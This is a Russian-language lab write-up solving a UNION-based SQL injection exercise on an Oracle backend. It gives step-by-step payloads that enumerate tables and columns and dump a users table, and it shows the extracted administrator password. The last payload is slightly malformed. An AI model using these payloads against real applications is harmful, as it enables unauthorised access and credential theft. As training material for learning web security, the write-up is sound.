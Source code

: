 Эта лабораторная работа содержит уязвимость SQL-инъекции в фильтре категории продукта. Результаты запроса возвращаются в ответе приложения, поэтому вы можете использовать атаку UNION для извлечения данных из других таблиц.

Приложение имеет функцию входа, а база данных содержит таблицу, которая содержит имена пользователей и пароли. Вам необходимо определить имя этой таблицы и столбцы, которые она содержит, затем извлечь содержимое таблицы, чтобы получить имя пользователя и пароль всех пользователей.

Чтобы решить лабораторную работу, войдите в систему как `administrator`пользователь.

## Дано

базы данных Oracle
уязвимость SQL-инъекции в фильтре категории продукта
Результаты запроса возвращаются в ответе приложения

## Задача

определить имя таблицы и столбцы 
войти под админа

# Решение

- Определяем количество строк при UNION
	`category=Gifts'+UNION++SELECT+NULL,+NULL+FROM+dual--`
	2 строки

[doc oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)
[шпаргалка](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- выводим все таблицы
`category=Gifts'UNION+SELECT+NULL,+table_name+FROM+all_tables--` - смотрим все имена таблиц в all_tables

USERS_VXMNDA

Проверим 
`' UNION SELECT NULL, COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_VXMNDA'--`

EMAIL
PASSWORD_MFJZTK
USERNAME_ZVMRUW

`' UNION SELECT PASSWORD_MFJZTK USERNAME_ZVMRUW FROM USERS_VXMNDA`

administrator
rlsudhse182a5ohgvbi1